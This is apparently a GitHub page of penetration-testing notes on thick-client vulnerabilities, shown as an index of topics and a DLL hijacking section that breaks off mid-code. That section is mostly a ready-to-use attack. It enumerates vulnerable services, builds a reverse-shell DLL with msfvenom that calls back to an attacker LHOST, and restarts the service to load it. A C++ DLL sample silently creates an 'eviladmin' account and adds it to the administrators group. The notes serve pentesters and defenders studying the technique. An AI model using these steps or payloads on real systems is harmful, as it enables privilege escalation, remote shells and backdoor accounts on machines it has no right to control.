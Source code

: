 # Thick client vulnerabilities

## Index

- [DLL Hijacking](#dll-hijacking)
- [Insecure application design](#insecure-application-design)
- [Weak Hashing Algorithms](#weak-hashing-algorithms)
- [Cleartext secrets in memory](#cleartext-secrets-in-memory)
- [Hardcoded secrets](#hardcoded-secrets)
- [Unsigned binaries](#unsigned-binaries)
- [Lack of verification of the server certificate](#lack-of-verification-of-the-server-certificate)
- [Insecure SSL/TLS configuration](#insecure-ssltls-configuration)
- [Remote Code Execution via Citrix Escape](#remote-code-execution-via-citrix-escape)
- [Direct database access](#direct-database-access)
- [Insecure Windows Service permissions](#insecure-windows-service-permissions)
- [Code injection](#code-injection)
- [Windows persistence](#windows-persistence)

## DLL Hijacking

**Tool**
- [Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) to see which DLLs are missing for an exe and do DLL Hijacking

**Process**
1. Use winPEAS to enumerate non-Windows services: `.\winPEASany.exe quiet servicesinfo`
2. Enumerate which of these services our user has stop and start access to `.\accesschk.exe /accepteula -uvqc user <service>`
3. Once it's found wich service is vulnerable to dll hijacking, find the executable's path with `sc qc dllsvc`
4. Using Process Monitor, add these the filters to find missing dlls.
   <img src="img/procmon-config-add.png" alt="procmon-config">
5. Generate a reverse shell DLL named hijackme.dll: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o hijackme.dll`
6. Run again the vulnerable service: `net stop <service>` and `net start dllsvc`

**Another example of a dll**:
```c++
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD dwReason, LPVOID lpReserved) {
    switch (dwReason) {
        case DLL_PROCESS_ATTACH:
            // Perform initialization tasks for the DLL when it is loaded
	    
	    int i;
  	    i = system ("net user eviladmin Ev!lpass /add");
  	    i = system ("net localgroup administrators eviladmin /add");
	    
            break;
        case DLL_PROCESS_DETACH:
            // Perform cleanup tasks for the DLL when it is unloaded
            break;
        case DLL_THREAD_ATTACH:
            // Perform initialization tasks for each new thread that loads the DLL
            break;
        case DLL_THREAD_DETACH:
```